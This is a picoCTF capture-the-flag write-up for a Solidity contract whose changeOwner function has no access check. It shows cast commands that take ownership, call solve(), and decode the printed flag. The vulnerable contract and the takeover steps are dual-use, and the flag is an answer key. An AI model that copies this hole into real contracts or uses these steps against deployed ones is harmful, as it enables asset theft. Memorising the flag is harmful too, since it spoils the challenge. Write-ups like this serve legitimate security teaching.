

## Description
We've created a simple contract to store a secret flag. But you currently are not the owner of the contract... Only the owner of the contract should be able to access it. We're sure we've made it secure this time.

This is a basic blockchain challenge by `OB`.


## Solution

This is a very basic challenge, where we are given the contract behind an address, along with the address of it. The supplied Solidity smart contract was very simple, and as follows:

```sol
pragma solidity ^0.8.0;

contract AccessControl {
    address public owner;
    string private flag;
    
    bool public revealed;

    event OwnerChanged(address indexed oldOwner, address indexed newOwner);
    event FlagRevealed(string flag);

    constructor(string memory _flag) {
        owner = msg.sender;
        flag = _flag;
        revealed = false;
    }

    function changeOwner(address _newOwner) public {
        address oldOwner = owner;
        owner = _newOwner;
        emit OwnerChanged(oldOwner, _newOwner);
    }

    function solve() public {
        require(msg.sender == owner, "Only the owner can get the flag.");
        
        if (!revealed) {
            revealed = true;
            emit FlagRevealed(flag);
        }
    }

    function getFlag() public view returns (string memory) {
        require(revealed, "Challenge not yet solved!");
        return flag;
    }
}
```

Breaking it down, to get the flag, we need to call the `solve` function, and to do that we must be the owner.
In order to become the owner, we just need to call `changeOwner` and supply our address.

```bash
$ export RPC=http://lonely-island.picoctf.net:50506

$ export CONTRACT=0x6D8da4B12D658a36909ec1C75F81E54B8DB4eBf9

$ export PK=0xd53e9ba2314284128294a7176f488cf1164e79af08611e4526a635c083fce728

$ export SELF=0x2D70f1241b1c3093FDb189AF1Df3fAc6C9706A36

$ cast send $CONTRACT "changeOwner(address)" $SELF --rpc-url $RPC --private-key $PK
Error: Failed to estimate gas: server returned an error response: error code -32602: duplicate field `data` at line 1 column 296, data: {"message":"duplicate field `data` at line 1 column 296","data":{"method":"eth_estimateGas","params":[{"from":"0x2d70f1241b1c3093fdb189af1df3fac6c9706a36","to":"0x6d8da4b12d658a36909ec1c75f81e54b8db4ebf9","maxFeePerGas":"0x971dd09e","maxPriorityFeePerGas":"0x3b9aca00","input":"0xa6f9dae10000000000000000000000002d70f1241b1c3093fdb189af1df3fac6c9706a36","data":"0xa6f9dae10000000000000000000000002d70f1241b1c3093fdb189af1df3fac6c9706a36","nonce":"0x0","chainId":"0x7a69"},"pending"]}}
```

That last command, which was the actual `cast` that sent a message to the contract threw an error namely `Failed to estimate gas`, so instead we need to supply the gas amount we want to use instead of it estimating for us.

We can set the gas of a `cast` message using the `--gas-limit` flag. Now the minimum gas for an ethereum transaction is typically around 21,000 so lets go with 30, 000 to ensure that our transaction goes through:

```bash
$ cast send $CONTRACT "changeOwner(address)" $SELF --rpc-url $RPC --private-key $PK --gas-limit 30000

blockHash            0xf3dacc07d0e57aa99566ca26dcbbce84b21b44fb8750259c50552c8f7615c804
blockNumber          15
contractAddress      
cumulativeGasUsed    25892
effectiveGasPrice    1135498319
from                 0x2D70f1241b1c3093FDb189AF1Df3fAc6C9706A36
gasUsed              25892
logs                 [{"address":"0x6d8da4b12d658a36909ec1c75f81e54b8db4ebf9","topics":["0xb532073b38c83145e3e5135377a08bf9aab55bc0fd7c1179cd4fb995d2a5159c","0x0000000000000000000000002d70f1241b1c3093fdb189af1df3fac6c9706a36","0x0000000000000000000000002d70f1241b1c3093fdb189af1df3fac6c9706a36"],"data":"0x","blockHash":"0xf3dacc07d0e57aa99566ca26dcbbce84b21b44fb8750259c50552c8f7615c804","blockNumber":"0xf","transactionHash":"0xb04902dd49f99231f6173ef85739ead77f0153dbfc12d862a5aced692dcdd7f4","transactionIndex":"0x0","logIndex":"0x0","removed":false}]
logsBloom            0x00000000000000000040000000000000000000000000000000080000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000100000000400000000000000000000000000000000000000000000000000000000000000000100000000000001000000000000000000000000000000000000000000000010000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000000000000000000000080000000000000000000000000000000000000000000000000000000000000000000000000000000000
root                 
status               1 (success)
transactionHash      0xb04902dd49f99231f6173ef85739ead77f0153dbfc12d862a5aced692dcdd7f4
transactionIndex     0
type                 2
blobGasPrice         
blobGasUsed          
to                   0x6D8da4B12D658a36909ec1C75F81E54B8DB4eBf9
```

And we can see here, we got `success`, so we are now the owner of this contract and now time to send `solve`. This one was finicky with the gas limit, so I just kept increasing it until it worked

```bash
$ cast send $CONTRACT "solve()" --rpc-url $RPC --private-key $PK --gas-limit 500000

blockHash            0x2e2ee7f937d06660adc9dbde3474abbced18458cbc248ef30430e8b239e4678f
blockNumber          19
contractAddress      
cumulativeGasUsed    52057
effectiveGasPrice    1079477282
from                 0x2D70f1241b1c3093FDb189AF1Df3fAc6C9706A36
gasUsed              52057
logs                 [{"address":"0x6d8da4b12d658a36909ec1c75f81e54b8db4ebf9","topics":["0x54ce18422826b91b0f2b424bfb268e46220b670bbc6f2f55f97f810c91ef45a4"],"data":"0x000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000207069636f4354467b695f63346e5f62335f30776e33725f34366466313362317d","blockHash":"0x2e2ee7f937d06660adc9dbde3474abbced18458cbc248ef30430e8b239e4678f","blockNumber":"0x13","transactionHash":"0xf6ce674a59dfdde42e89cdc164ab72fefbac1c06e3140e8b90ac025ffb260e5c","transactionIndex":"0x0","logIndex":"0x0","removed":false}]
logsBloom            0x00000000000000000000000000000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000400000000080000000000000000000000000000000000000000000400000000000000000000000000000000000000000000000000000000000000000100000000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
root                 
status               1 (success)
transactionHash      0xf6ce674a59dfdde42e89cdc164ab72fefbac1c06e3140e8b90ac025ffb260e5c
transactionIndex     0
type                 2
blobGasPrice         
blobGasUsed          
to                   0x6D8da4B12D658a36909ec1C75F81E54B8DB4eBf9
```

And now going back to the web interface for this challenge, shows the flag:



That is the flag: `picoCTF{i_c4n_b3_0wn3r_46df13b1}`

Or you can also look at the `data` field of the `solve` transaction 

```json
{
	"address": "0x6d8da4b12d658a36909ec1c75f81e54b8db4ebf9",
	"topics":["0x54ce18422826b91b0f2b424bfb268e46220b670bbc6f2f55f97f810c91ef45a4"],
	"data": "0x000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000207069636f4354467b695f63346e5f62335f30776e33725f34366466313362317d",
	"blockHash": "0x2e2ee7f937d06660adc9dbde3474abbced18458cbc248ef30430e8b239e4678f",
	"blockNumber": "0x13",
	"transactionHash": "0xf6ce674a59dfdde42e89cdc164ab72fefbac1c06e3140e8b90ac025ffb260e5c",
	"transactionIndex": "0x0",
	"logIndex": "0x0",
	"removed": false
}
```

The data field in here is just the hex encoding of the emitted value:

```bash
$ echo 0x000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000207069636f4354467b695f63346e5f62335f30776e33725f34366466313362317d | xxd -r -p
  picoCTF{i_c4n_b3_0wn3r_46df13b1}
```
